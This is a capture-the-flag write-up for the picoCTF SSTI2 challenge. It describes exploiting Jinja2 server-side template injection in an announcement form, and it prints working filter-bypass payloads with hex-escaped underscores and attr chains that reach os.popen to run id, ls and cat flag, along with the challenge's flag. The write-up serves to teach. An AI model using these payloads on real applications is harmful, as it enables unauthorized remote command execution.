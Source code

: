 >> picoCTF — SSTI2 (Server-Side Template Injection) Writeup

**Challenge:** SSTI2 — Server-Side Template Injection  

**Category:** Web — SSTI / Template Injection 

**Author:** NIGHTFURY0X01 (Arash)

**Level:** Medium

---

## Description
> I made a cool website where you can announce whatever you want! Try it out!  
> Additional details will be available after launching your challenge instance.

The application provides a simple announcement form (an input named `content`) that reflects the submitted text back to the page. I interacted with the site through the web UI (entered payloads into the form and submitted) to confirm SSTI and to escalate to command execution.

> **Warning:** The techniques below are for CTF/educational purposes only. Do not use them on systems without explicit authorization.

---

## Summary
By submitting specially crafted template expressions in the announcement form, the server evaluated Jinja2/Python expressions. Starting from a basic arithmetic test, I used introspection to access Python globals and `os.popen`, enumerated the application directory, and read the `flag` file. All interaction was done using the website form (no `curl`).

---

## Tools
- Web browser (to submit payloads via the provided form).  
- Optional: local text editor to compose payloads before copying into the form.

---

## Steps — Browser interaction (what I did)

### 1. Open the challenge page
I loaded the challenge instance in my browser and located the announcement form:

![Step 1](images/1.png)

```html
<form action="/" method="POST">
  What do you want to announce: <input name="content" id="announce">
  <button type="submit"> Ok </button>
</form>

```
![Step 2](images/2.png)

+ The form posts content to / and reflects the announcement back to the page.

### 2. Confirm SSTI with a simple arithmetic test

+ I entered the payload into the input field:

```bash
{{7*7}}
```
![Step 3](images/3.png)

+ Then I submitted the form. The page returned and showed:
```bash
49
```

![Step 4](images/4.png)

+ This confirmed the server is evaluating template expressions (SSTI).

### 3. Escalate to command execution via Python builtins

+ To import modules and run shell commands, I used Python introspection through the request object available in the template context. I entered:

```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```
![Step 5](images/5.png)

+ After submitting the form, the page reflected:

```text
uid=0(root) gid=0(root) groups=0(root)
```

![Step 6](images/6.png)

+ This shows the process is running as root, and that os.popen() is usable to execute shell commands.


### 4. Enumerate files in the working directory

+ Next, I listed files by submitting:

```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
```
![Step 7](images/7.png)

+ The page returned:

```text
__pycache__
app.py
flag
requirements.txt
```

![Step 8](images/8.png)

+ This confirmed a flag file exists in the application directory.


### 5. Read the flag file

+ Finally, I retrieved the flag by submitting:

```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```

![Step 9](images/9.png)

+ The page returned the flag:
```bash
picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}
```
![Step 10](images/10.png)

## Final Flag:
```bash
picoCTF{sst1_f1lt3r_byp4ss_6787c4d8}
```

## Technical Note: Why the Long Payload?
+ The payload used in this challenge:
```jinja2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
```

## Reasons for using this format:

+ `\x5f` is hexadecimal encoding for the `_ `character, used to bypass potential security filters

+ Using the `attr` filter instead of dots `(.)` for attribute access

+ This method is more resistant to simple WAFs and security filters


---
## Analysis & Notes

+ The content field was rendered inside a server-side template and evaluated as a Jinja2/Python expression — classic SSTI.

+ Using `request.application.__globals__.__builtins__.__import__('os')` allowed importing os from within the template sandbox (when direct import is unavailable). From there `os.popen()` executed shell commands.

+ The server process was running as root, which made reading local files trivial. In production systems, running app processes as root is insecure.

+ Important: all actions above were performed by typing payloads into the web form and submitting — no CLI tooling was required.

